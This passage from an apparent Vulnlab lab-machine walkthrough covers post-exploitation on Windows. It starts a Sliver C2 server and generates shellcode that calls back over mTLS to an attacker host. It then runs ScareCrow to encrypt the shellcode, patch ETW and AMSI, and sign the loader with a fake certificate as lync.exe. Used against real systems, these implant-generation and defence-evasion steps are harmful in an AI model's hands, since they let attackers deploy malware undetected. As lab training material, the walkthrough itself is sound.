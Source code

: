 We switched the session with `RunAs` and executed our `Sliver Beacons`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Escape/serve]
└─$ sliver
Connecting to localhost:31337 ...

.------..------..------..------..------..------.
|S.--. ||L.--. ||I.--. ||V.--. ||E.--. ||R.--. |
| :/\: || :/\: || (\/) || :(): || (\/) || :(): |
| :\/: || (__) || :\/: || ()() || :\/: || ()() |
| '--'S|| '--'L|| '--'I|| '--'V|| '--'E|| '--'R|
`------'`------'`------'`------'`------'`------'

All hackers gain infect
[*] Server v1.5.41 - f2a3915c79b31ab31c0c2f0428bbd53d9e93c54b
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver >
```

```c
sliver > generate --mtls 10.8.0.2 --os windows --arch amd64 --format shellcode --disable-sgn --save /tmp/ --name lock-https --skip-symbols
```

Then we obfuscated our `shellcode` with `ScareCrow`.

```
┌──(kali㉿kali)-[~/opt/malware_development/ScareCrow]
└─$ ./ScareCrow -I /tmp/lock-https.bin -Loader binary -domain vulnlab.com
 
  _________                           _________                       
 /   _____/ ____ _____ _______   ____ \_   ___ \_______  ______  _  __
 \_____  \_/ ___\\__  \\_  __ \_/ __ \/    \  \/\_  __ \/  _ \ \/ \/ /
 /        \  \___ / __ \|  | \/\  ___/\     \____|  | \(  <_> )     / 
/_______  /\___  >____  /__|    \___  >\______  /|__|   \____/ \/\_/  
        \/     \/     \/            \/        \/                      
                                                        (@Tyl0us)
        “Fear, you must understand is more than a mere obstacle. 
        Fear is a TEACHER. the first one you ever had.”

[*] Encrypting Shellcode Using ELZMA Encryption
[+] Shellcode Encrypted
[+] Patched ETW Enabled
[+] Patched AMSI Enabled
[+] Sleep Timer set for 2220 milliseconds 
[*] Creating an Embedded Resource File
[+] Created Embedded Resource File With lync's Properties
[*] Compiling Payload
[+] Payload Compiled
[*] Signing lync.exe With a Fake Cert
[+] Signed File Created
[+] Binary Compiled
[!] Sha256 hash of lync.exe: c4fef8087d01e7c24a534549fc82286b30cf676558f413d4b2ab1a9a8acf9e58
```
